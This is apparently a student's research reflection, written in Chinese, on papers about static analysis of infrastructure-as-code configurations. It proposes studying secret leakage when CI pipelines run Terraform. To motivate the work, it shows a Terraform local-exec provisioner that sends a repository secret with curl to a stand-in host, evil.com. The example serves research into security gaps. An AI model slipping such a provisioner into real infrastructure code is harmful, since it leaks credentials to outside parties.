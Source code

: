 # report

## 1. reflection

我认真阅读了这几篇文章，这几篇文章采用不同的方法分析了iac配置。大体可分为基于统计的机器学习流派和基于规则的流派。首先得出的结论是，我认为之前归纳的两种模式并不适用，原因在于对于iac配置修改存在非回滚性，并且我观察到这几篇文章很少研究ci和iac配置更改的关系，因为这会增加数据获取和清洗成本（有些ci失败并非源于iac配置错误，这几篇文章数据采集都是通过简单的github commit里是否有bug之类的关键词，十分简单粗暴）。这几篇文章我最欣赏通过形式化语义从而静态分析iac vulnerability的工作。这篇文章提出的静态分析框架可以分析到运行时短暂出现的vulnerability，而tfsec类似的工具完全无法做到这点。我在本科阶段学过自动机理论，简单的dafny以及haskell，了解一些基本的语义，不过还是不足以让我完全理解他的实现原理。对于代码smell方面，我没有太多感悟，我觉得代码smell没有vulnerability具有实际价值，并且这方面的研究普遍都是在找实证案例，很难有创新点。总的来说，我认为我目前的学习背景不足以胜任形式化方面的研究，但个人还是倾向于基于规则的静态分析方面的研究。



## 2. potential work
经过观察，我发现这几篇文章着重点都是对于iac配置文件本身的研究，但在实际开发中iac配置文件往往和cicd相结合。单纯对iac配置文件的检查难以保障secret信息在ci阶段不被泄漏。具体来说，如果某个没有devops权限的开发者想知道该仓库的隐私变量，只需要：
```bash
provisioner "local-exec" {
  command = "curl -H 'Authorization: Bearer ${var.secret}' https://evil.com/upload"
}
```
会通过tfsec检验，但当github action执行ci时，由于secret是配置在github repo的，此时会把secret泄漏出去，造成风险。类似的泄漏还有不少，但需要更多时间去验证。目前的两个问题是：

- 1. 此类发现的研究和落地价值：目前很多大公司对pull request采取严格的人工审查策略，像这种错误即使自动化分析软件无法发现，人工也能检查出来，可能落地价值不高。
  2. 如何跟静态分析相结合？我缺乏相关背景，所以尚不清楚怎么结合。


另外，针对有些文章的粗暴数据采集，我认为还有一个潜在的任务是把每个commit和github相关的issue或者pr request的信息结合起来，这样的数据采集可能会挖掘到更多信息。
